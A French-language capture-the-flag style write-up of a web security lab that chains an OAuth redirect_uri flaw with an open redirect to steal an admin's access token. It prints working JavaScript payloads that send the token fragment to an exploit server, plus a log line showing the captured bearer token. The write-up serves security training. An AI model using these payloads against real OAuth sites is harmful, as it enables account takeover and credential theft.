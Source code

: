 # Stealing OAuth access tokens via an open redirect

```
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
Note

You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: wiener:peter. 
```

On cherche a rediriger l'utilisateur admin vers notre serveur d'exploitation :
- Depuis `redirect_uri` impossible car filtrage

On cherche sur le site un endroit où la vulnérabilité open redirect peut être exploité :
- On trouve le endpoint suivant : `/post/next?path=ANY_PATH`

On redirige donc l'utilisateur vers la page du site autorisant la redirection vers le serveur d'exploitation.

> Création payload à envoyer depuis le serveur d'exploit :

Ici lorsque l'utilisateur va être rediriger vers notre serveur d'exploitation, il sera rediriger une nouvelle fois vers cette page après la récuperation du token grâce à `hash.substr(1)` :
```html
<img src="test" onerror="document.location = '/?'+document.location.hash.substr(1)"/>
```

On crée le script final à envoyer à l'administrateur

```html
<script>
 if(!document.location.hash){document.location='https://oauth-0a6000db041fd606811e79ad02e0002c.oauth-server.net/auth?client_id=phk24a9cat6qv2fnc4dqv&redirect_uri=https://0a96008a04dcd687815a7b9800a6000c.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a430080048ed6c581af7a7101e200ad.exploit-server.net/exploit&response_type=token&nonce=742793739&scope=openid%20profile%20email'}else{document.location = '/?'+document.location.hash.substr(1)}
</script>
```

On envoi à l'administrateur et on récupère son token dans les logs du serveur d'exploitation :

```
10.0.4.214      2023-04-21 14:34:35 +0000 "GET /?access_token=QZ3PWbNaVMu9Vi9emo6JM3qgO1qcD6VHqPsWN2Q6n4u&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

On accède à la page `/me` afin de récuperer la clé d'API de l'administrateur. On utilise le token de l'administrateur récupéré précedemment.

> SOLVED : Good Job ! ^^